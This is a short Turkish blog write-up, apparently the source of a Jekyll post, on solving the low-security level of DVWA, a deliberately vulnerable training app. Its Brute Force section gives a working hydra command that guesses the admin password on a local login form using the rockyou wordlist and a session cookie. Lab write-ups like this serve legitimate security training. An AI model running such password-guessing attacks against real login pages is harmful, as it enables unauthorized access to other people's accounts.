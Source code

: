 ```yaml
---
layout: post
title:  "DVWA Low"
subtitle: "DVWA Low Çözümleri"
date: 2020-02-23 06:34:01 +0200
categories: [writeup]
---
```


###### Bazı bölümler ise writeuplara bakılarak çözülmüştür.

###### Yazı seviyesi: Elemantary


Brute Force
======

```terminal
hydra 127.0.0.1 -l admin -P /usr/share/wordlists/rockyou.txt http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie\: security=low; PHPSESSID=7rfogf7fdkhhjdagm25cneuv7d" -vV -f
```

![Low Brute Forse 1](https://raw.githubusercontent.com/JohnGkmn/CyberSecurity/master/WriteUp/dvwa/dvwaLow/l_bruteforce1.png " Brute Forse 1")

![Low Brute Forse 2](https://raw.githubusercontent.com/JohnGkmn/CyberSecurity/master/WriteUp/dvwa/dvwaLow/l_bruteforce2.png " Brute Forse 2")

![-](https://raw.githubusercontent.com/JohnGkmn/JohnGkmn.github.io/master/css/smashicons.png "*")
